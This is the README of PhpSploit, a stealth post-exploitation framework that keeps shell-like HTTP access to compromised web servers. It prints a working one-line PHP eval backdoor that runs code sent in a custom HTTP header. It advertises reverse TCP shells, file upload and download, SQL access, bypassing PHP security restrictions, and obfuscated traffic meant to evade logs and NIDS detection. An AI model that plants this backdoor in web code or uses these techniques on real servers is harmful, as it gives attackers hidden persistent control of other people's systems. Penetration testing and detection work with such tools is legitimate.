 ### PhpSploit: *Furtive post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

---------------------------------------------------------------------
#### Features ####

* **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

* **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common *PHP security restrictions bypass*
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to *bypass NIDS*
    - http/https/socks4/socks5 **Proxy support**

* **Convenient**: A robust interface with many crucial features
    - *Cross-platform* on both the client and the server.
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature, with persistent history
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a *polymorphic mode*
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


---------------------------------------------------------------------
#### Supported platforms:####
* GNU/Linux
* Mac OS X
* Windows (experimental)


## [Get started now !] ##


[picture]: data/img/phpsploit-demo.png
[Get started now !]: https://github.com/nil0x42/phpsploit/wiki
